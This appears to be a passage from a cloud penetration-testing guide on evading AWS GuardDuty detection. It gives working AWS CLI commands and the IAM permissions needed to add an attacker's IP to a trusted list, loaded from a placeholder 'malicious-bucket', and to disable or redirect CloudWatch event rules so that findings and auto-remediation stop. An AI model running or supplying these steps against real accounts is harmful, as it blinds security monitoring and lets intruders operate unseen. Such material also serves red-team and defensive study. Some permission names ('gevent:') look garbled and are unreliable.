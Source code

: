 
## Option2 - Patching Trusted IP Lists

We could create or update GuardDuty's [Trusted IP list](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_upload-lists.html) - including their own IP on the list. Any IPs in a trusted IP list will not have any Cloudtrail or VPC flow log alerts raised against them.

*DNS findings are exempt from the Trusted IP list.*

**Required permissions to execute:**

- `guardduty:ListDetectors`
- `guardduty:ListIPSet`
- `iam:PutRolePolicy`
- `guardduty:CreateIPSet (can be used to create a new list)`
- `guardduty:UpdateIPSet (update an existing list)`

Depending on the level of stealth required the file can be uploaded to an S3 bucket:

- Either in the target account
- or an account controlled by the attacker

Tiny cheat sheet of the CLI commands:

```bash
aws guardduty update-ip-set \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --ip-set-id 24adjigdk34290840348exampleiplist \
    --location https://malicious-bucket.s3-us-east-1.amazonaws.com/customiplist.csv \
    --activate
```

## Option 3 - Modify Cloudwatch events rule

GuardDuty populates its findings to Cloudwatch-Events every 5 minutes. Modifying the Event pattern or Targets for an event may reduce GuardDuty's ability to alert and trigger auto-remediation of a findings. Especially where the remediation is triggered in a member account as GuardDuty administrator protections do not extend to the Cloudwatch events in one of the member accounts.

But be aware that:

> In a delegated or invitational admin GuardDuty architecture, cloudwatch events will still be created in the admin account.

**Required permissions to execute:**

- `gevent:ListRules`
- `gevent:ListTargetsByRule`
- `gevent:PutRule`
- `gevent:RemoveTargets`

Tiny cheat sheet of the CLI commands:

```bash
# Disable GuardDuty Cloudwatch Event
aws events put-rule --name guardduty-event \
    --event-pattern "{\"source\":[\"aws.guardduty\"]}" \
    --state DISABLED

# Modify Event Pattern
aws events put-rule --name guardduty-event \
    --event-pattern '{"source": ["aws.somethingthatdoesntexist"]}'

# Remove Event Targets
aws events remove-targets \ 
    --name guardduty-event \
    --ids "GuardDutyTarget"
```

---